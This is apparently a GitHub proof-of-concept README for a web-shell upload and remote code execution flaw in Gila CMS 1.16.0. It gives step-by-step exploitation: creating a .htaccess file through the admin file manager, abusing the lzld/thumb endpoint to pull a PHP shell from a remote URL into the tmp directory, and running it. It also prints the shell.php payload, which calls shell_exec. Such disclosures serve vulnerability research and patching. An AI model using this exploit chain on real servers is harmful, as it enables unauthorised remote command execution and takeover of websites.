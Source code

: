 # Gila-CMS-1.16.0-shell-upload

Author: jkana
----
1.Login as administrator or any users have logs permission

2.Access to **http://IP/admin/fm?f=tmp/** . For example:
```http://192.168.0.105:1234/gila16/admin/fm?f=tmp/```

![](Images/1.jpg)

3.Click **+File** and create **.htaccess**:

![](Images/2.jpg)

4.Use this URL for downloading shell to gila's tmp directory **http://IP/lzld/thumb?size=600&src=SHELL_URL** .For example:
```http://192.168.0.105:1234/gila16/lzld/thumb?size=600&src=http://192.168.0.105:1234/files/shell.php```

5.We can check shell name with **http://IP/admin/fm?f=tmp/**

![](Images/3.jpg)

6.Access to webshell and got RCE!

![](Images/4.jpg)

----
## shell.php
```
<?php
$output = shell_exec('ipconfig');
echo "<pre>$output</pre>";
?>
```
